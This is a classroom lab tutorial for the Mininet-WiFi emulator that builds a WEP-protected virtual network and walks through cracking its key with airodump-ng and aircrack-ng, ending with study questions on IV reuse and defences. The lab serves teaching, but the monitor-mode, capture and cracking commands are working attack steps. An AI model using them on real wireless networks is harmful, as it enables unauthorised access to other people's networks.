 ************
Cracking WEP Wi-Fi Encryption
************


.. Note::

    **In this short demo you will learn on how to crack a WEP key:** 

    **Requirements:** 
    
    - Mininet-WiFi - https://github.com/intrig-unicamp/mininet-wifi
    - airodump-ng
    
    **The VM available at the Mininet-WiFi's source code repository already has all the requirements satisfied**.


First of all you need to identify the network topology that will be generated by the code below:

.. code:: python

      #!/usr/bin/python

      '''@author: Ramon Fontes
         @email: ramon.fontes@imd.ufrn.br'''

      from mininet.log import setLogLevel, info
      from mn_wifi.cli import CLI
      from mn_wifi.net import Mininet_wifi


      def topology():
          "Create a network."
          net = Mininet_wifi()

          info("*** Creating nodes\n")
          sta1 = net.addStation('sta1', passwd='1234567891a', encrypt='wep')
          sta2 = net.addStation('sta2', passwd='123456789a', encrypt='wep')
          sta3 = net.addStation('sta3', passwd='123456789a', encrypt='wep')
          ap1 = net.addAccessPoint('ap1', ssid="simplewifi", mode="g", channel="1",
                                   passwd='123456789a', encrypt='wep',
                                   failMode="standalone", datapath='user')

          info("*** Configuring wifi nodes\n")
          net.configureWifiNodes()

          info("*** Associating Stations\n")
          net.addLink(sta1, ap1)
          net.addLink(sta2, ap1)
          net.addLink(sta3, ap1)

          info("*** Starting network\n")
          net.build()
          ap1.start([])

          info("*** Running CLI\n")
          CLI(net)

          info("*** Stopping network\n")
          net.stop()


      if __name__ == '__main__':
          setLogLevel('info')
          topology()

So considering that the filename is `wep.py` you have to run it as below:

.. code:: console

     ~$ sudo python wep.py


and then you have to create a monitor interface called mon0 for `sta1`.


.. code:: console
   
    mininet-wifi> sta1 iw dev sta1-wlan0 interface add mon0 type monitor
    mininet-wifi> sta1 ifconfig mon0 up


Now you have to open a xterm for `sta1`

.. code:: console
    
    mininet-wifi> xterm sta1

Then we will start using the dump command to grab packets from other wireless devices, and the software will be able to make calculations and comparisons among the data to break the insecure WEP protocol. Enter the following command from `sta1`'s terminal: 

.. code:: console

    # airodump-ng mon0


Now it is time to tell your wireless interface to start storing captured wireless data based on the network of your choosing. Remember to plug in three key pieces of information from the previous output into the following command:

.. code:: console

    # airodump-ng –w simplewifi –c 1 –-bssid 02:00:00:00:03:00 mon0 


Last but not least, you are going to need to do the most important step of the process by actually using the captured data from the WEP device. Issue the following command:


.. code:: console

    # aircrack-ng simplewifi-01.cap


If all goes according to plan, you should be able to break the WEP system. However, if the command fails, you will want to wait until your wireless card captures more data. Give it time to capture 15,000 packets and then try again.


.. admonition:: Question

   - Q1. For a 24-bit IV, there is a 50% probability the same IV will repeat after 5,000 packets. Why?
   - Q2. Is there any way to be protected from this WEP key attack?
